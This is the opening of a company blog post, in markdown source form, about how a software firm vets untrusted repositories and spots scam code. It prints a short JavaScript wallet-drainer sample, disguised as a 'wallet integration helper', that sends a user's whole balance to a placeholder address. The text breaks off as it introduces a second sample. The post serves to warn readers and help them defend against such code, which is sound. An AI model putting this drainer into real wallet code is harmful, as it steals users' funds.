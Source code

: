 ```yaml
---
title: "A Short Story about Dealing with Malicious Code"
description: "A real-world analysis of a malicious healthcare repository that disguised itself as an AI prototype. Learn how Kmino uncovered hidden backdoors, identified red flags, and built a checklist for safely analyzing unknown codebases."
pubDate: 2025-10-27
image:
  url: https://images.unsplash.com/photo-1614064744993-dc3650ff1d25?ixlib=rb-4.1.0&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&q=80&w=1740
  alt: Dealing with scam codebases cover
tags: [Tech, Business, Startup, Software Engineering]
author: "bruno"
---
```


# A Short Story about Dealing with Malicious Code

In our line of work at Kmino, it's not unusual that part of the discussion before we close a deal with a new partner revolves around analyzing codebases. This serves multiple purposes:

- It helps our potential partners evaluate our technical expertise.
- It allows our team to understand what we'd be getting into, from architecture to code quality.
- It informs our resource allocation and project estimation.
- And, perhaps most importantly, it ensures we can deliver safely and effectively.

When we receive code from unknown sources, we start with basic due diligence: analyzing the repository structure, checking commit history, reviewing collaborators’ profiles, running static analysis with AI-powered tools, and, if we need to execute the code, doing so in isolated environments built specifically for running untrusted applications.

However, this process also exposes us to unique security risks. Since we frequently clone and analyze external repositories, sometimes sent directly from prospective clients, we're a prime target for scammers trying to exploit that trust.

## The Usual Case

Given our history working with Web3 companies, we've encountered our fair share of scam repositories. Most of them are easy to spot; they typically contain malicious wallet interactions or functions designed to drain users' crypto wallets. A 15min analysis is enough to know what we're up against, and we usually don't lose too much time on those.

For example, we've seen code like this disguised as a "wallet integration helper":

```javascript
const approveWallet = async (provider) => {
  const accounts = await provider.request({ method: 'eth_requestAccounts' });
  const balance = await provider.getBalance(accounts[0]);
  
  await provider.request({
    method: 'eth_sendTransaction',
    params: [{
      from: accounts[0],
      to: "0xBEEFDEADBEEFDEADBEEFDEADBEEFDEADBEEFDEAD",
      value: balance.toHexString()
    }],
  });
};
```
Or this one, pretending to be a "smart contract verification utility":
